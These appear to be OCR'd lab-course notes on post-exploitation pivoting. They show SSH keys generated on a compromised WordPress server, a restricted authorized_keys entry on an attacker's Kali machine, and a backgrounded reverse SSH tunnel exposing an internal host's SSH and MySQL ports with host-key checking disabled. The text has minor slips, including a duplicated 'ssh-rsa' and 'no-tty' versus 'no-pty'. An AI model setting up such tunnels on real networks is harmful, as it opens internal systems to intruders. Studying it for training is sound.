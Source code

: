 ```bash
mkdir keys
cd keys
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/keys/id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/keys/id_rsa.
Your public key has been saved in /tmp/keys/id_rsa.pub.
...
cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMf
LhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8Z
Io/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T
5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF
9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```

-    This new public key needs to be entered in our Kali host’s** authorized_keys file for the kali user, but with some restrictions**

-    To** avoid potential security issues** we can **tighten the ssh configuration only permitting access coming from the WordPress IP address** (note that this will be the NAT IP since this is what Kali will see and not the IP of the actual WordPress host).

-    Next, we want to ignore any commands the user supplies

- This can be done with the** command option in ssh**.  
  
- We also want to prevent agent and X11 forwarding with the no-agent-forwarding and no-X11-forwarding options.  
  
- Finally, we want to prevent the user from being allocated a tty device with the no-tty option.  
  
- The final **~/.ssh/authorized_keys** file on Kali can be found in Listing 897.

```bash
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",
no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABA
AABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ
9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7k
Z1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9x
k87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MD
nin www-data@ajla
```

-    This entry allows the owner of the private key (the web server), to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

-    we need to add a couple more options to our ssh command to ensure that it will work.

-    we need to add the **-N flag to specify that we are not running any commands**

-    We also need the** -f option to request ssh to go to the background**. Finally, we also need to provide the key file that we are using via -i.

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
